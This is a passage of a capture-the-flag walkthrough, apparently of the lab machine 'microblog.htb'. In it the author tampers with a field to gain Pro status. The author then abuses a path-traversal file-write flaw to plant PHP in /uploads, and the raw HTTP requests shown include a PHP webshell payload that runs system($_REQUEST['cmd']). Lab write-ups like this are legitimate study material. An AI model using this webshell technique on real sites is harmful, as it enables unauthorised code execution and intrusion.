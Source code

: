 #### Pro Access

I don’t really want to change my name, but rather to get Pro status. I’ll change the field to “pro” and the value to “true”, and send again. On refresh, my page says Pro!

![image-20230515160423427](https://0xdf.gitlab.io/img/image-20230515160423427.png)

### WebShell

#### Pro Changes

With pro, my site exit now has an `img` option:

![image-20230515162509255](https://0xdf.gitlab.io/img/image-20230515162509255.png)

If I give it an image, it loads:

![image-20230515162746163](https://0xdf.gitlab.io/img/image-20230515162746163.png)

The image is located at `http://oxdf.microblog.htb/uploads/6462959cc8f1b2.38277097_gneojkiqpmhfl.png`.

I noted above that the client-side application forces a `.png` extension onto whatever I upload.

#### Write to /uploads

I’ll use the write vulnerability to write a `.php` file into `/uploads`:

```
POST /edit/index.php HTTP/1.1
Host: oxdf.microblog.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: http://oxdf.microblog.htb
Cookie: username=rbb8bp6umb0logs0i3sqlcp5kc
Upgrade-Insecure-Requests: 1

id=../uploads/0xdf.php&txt=<?php+echo+"0xdf!";+?>

```

Now with Pro access, I can access this directory, and unlike the previous directory, this time the PHP executes:

![image-20230515163354827](https://0xdf.gitlab.io/img/image-20230515163354827.png)

#### Webshell -> Shell

I’ll resend the write request, but this time writing a simple PHP webshell:

```
POST /edit/index.php HTTP/1.1
Host: oxdf.microblog.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: http://oxdf.microblog.htb
Cookie: username=rbb8bp6umb0logs0i3sqlcp5kc
Upgrade-Insecure-Requests: 1

id=../uploads/0xdf.php&txt=<?php+system($_REQUEST['cmd']);+?>

```
